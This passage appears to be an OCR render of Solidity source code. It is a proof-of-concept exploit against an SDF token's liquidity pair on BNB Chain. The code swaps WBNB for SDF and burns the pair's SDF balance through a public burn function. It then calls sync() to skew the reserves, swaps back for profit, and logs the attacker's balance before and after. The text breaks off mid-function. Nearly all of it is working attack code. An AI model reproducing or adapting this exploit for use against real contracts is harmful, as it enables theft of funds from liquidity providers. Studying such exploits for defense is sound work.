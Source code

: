 │         emit log_named_decimal_uint(                                                                                                                                                                                                                 │
│             "[Start] Attacker WBNB balance before exploit",                                                                                                                                                                                          │
│             WBNB.balanceOf(address(this)),                                                                                                                                                                                                           │
│             18                                                                                                                                                                                                                                       │
│         );                                                                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│         address(WBNB).call{value: 0.01 ether}("");                                                                                                                                                                                                   │
│         WBNBToSDF();                                                                                                                                                                                                                                 │
│         SDF.burn(address(Pair), SDF.balanceOf(address(Pair)) - 1);                                                                                                                                                                                   │
│         Pair.sync();                                                                                                                                                                                                                                 │
│         SDFToWBNB();                                                                                                                                                                                                                                 │
│                                                                                                                                                                                                                                                      │
│          emit log_named_decimal_uint(                                                                                                                                                                                                                │
│             "[End] Attacker WBNB balance after exploit",                                                                                                                                                                                             │
│             WBNB.balanceOf(address(this)),                                                                                                                                                                                                           │
│             18                                                                                                                                                                                                                                       │
│         );                                                                                                                                                                                                                                           │
│     }                                                                                                                                                                                                                                                │
│     function WBNBToSDF () public{                                                                                                                                                                                                                    │
│         WBNB.approve(address(Router), ~uint256(0));                                                                                                                                                                                                  │
│         address[] memory path = new address[](2);                                                                                                                                                                                                    │